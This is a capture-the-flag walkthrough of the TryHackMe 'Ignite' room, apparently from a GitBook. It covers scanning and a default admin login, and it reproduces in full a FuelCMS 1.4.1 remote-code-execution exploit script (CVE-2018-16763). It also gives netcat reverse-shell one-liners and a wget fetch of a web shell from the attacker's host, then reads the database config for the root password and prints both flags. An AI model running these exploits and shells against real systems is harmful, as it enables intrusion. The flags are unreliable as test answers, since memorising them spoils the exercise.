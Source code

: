 ```yaml
---
description: 'https://tryhackme.com/room/ignite'
---
```


# Ignite

## INIT

```text
export ignite=10.10.28.158
ping $ignite

echo "10.10.28.158 ignite.thm" >> /etc/hosts
```

## NMAP

```text
nmap -sC -sV -O $ignite
```

![](../.gitbook/assets/image%20%28454%29.png)

## GOBUSTER

```text
gobuster dir -u $ignite -w /usr/share/wordlists/dirb/common.txt -q -t 15 -x php,html,txt
```

![](../.gitbook/assets/image%20%28377%29.png)

## HTTP

![](../.gitbook/assets/image%20%28422%29.png)

![](../.gitbook/assets/image%20%28446%29.png)

![](../.gitbook/assets/image%20%28403%29.png)

{% hint style="info" %}
login: admin

password: admin
{% endhint %}

![](../.gitbook/assets/image%20%28419%29.png)

![](../.gitbook/assets/image%20%28376%29.png)

```text
searchsploit Fuel
searchsploit -p 47138
```

![](../.gitbook/assets/image%20%28441%29.png)

```text
cp /usr/share/exploitdb/exploits/linux/webapps/47138.py ignite.py
```

```text
# Exploit Title: fuelCMS 1.4.1 - Remote Code Execution
# Date: 2019-07-19
# Exploit Author: 0xd0ff9
# Vendor Homepage: https://www.getfuelcms.com/
# Software Link: https://github.com/daylightstudio/FUEL-CMS/releases/tag/1.4.1
# Version: <= 1.4.1
# Tested on: Ubuntu - Apache2 - php5
# CVE : CVE-2018-16763


import requests
import urllib
import urllib.parse

url = "http://10.10.39.95"
def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start

while 1:
        xxxx = input('cmd:')
        burp0_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.parse.quote(xxxx)+"%27%29%2b%27"
        proxy = {"http":"http://127.0.0.1:8080"}
        r = requests.get(burp0_url, proxies=proxy)

        html = "<!DOCTYPE html>"
        htmlcharset = r.text.find(html)

        begin = r.text[0:20]
        dup = find_nth_overlapping(r.text,begin,2)

        print(r.text[0:dup])

```

![](../.gitbook/assets/image%20%28384%29.png)

```text
nc -e /bin/sh 10.14.4.204 1234
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.14.4.204 4444 >/tmp
```

![](../.gitbook/assets/image%20%28415%29.png)

```text
cmd:bash shell.sh
```

![](../.gitbook/assets/image%20%28438%29.png)

```text
python3 ignite.py
wget http://10.14.4.204:8000/phpbash.php
```

![](../.gitbook/assets/image%20%28411%29.png)

![](../.gitbook/assets/image%20%28426%29.png)

![](../.gitbook/assets/image%20%28395%29.png)

![](../.gitbook/assets/image%20%28431%29.png)

### User.txt

{% hint style="success" %}
6470e394cbf6dab6a91682cc8585059b
{% endhint %}

```text
python -c 'import pty; pty.spawn("/bin/bash")'
```

![](../.gitbook/assets/image%20%28425%29.png)

```text
 cat /var/www/html/fuel/application/config/database.php
```

![](../.gitbook/assets/image%20%28442%29.png)

```text
su -
password: mememe
cat /root/root.txt
```

![](../.gitbook/assets/image%20%28421%29.png)

### Root.txt

{% hint style="success" %}
b9bbcb33e11b80be759c4e844862482d
{% endhint %}

